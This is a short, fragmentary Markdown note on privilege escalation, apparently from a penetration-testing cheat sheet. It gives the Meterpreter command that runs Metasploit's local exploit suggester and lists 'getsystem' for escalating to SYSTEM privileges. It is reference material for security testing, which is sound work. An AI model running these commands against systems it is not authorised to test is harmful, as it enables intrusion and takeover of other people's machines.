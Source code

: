 # Privilege escalation

## Metasploit modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

| Command     | Description                           |
| ----------- | ------------------------------------- |
| `getsystem` | Try to escalate to SYSTEM privileges. |
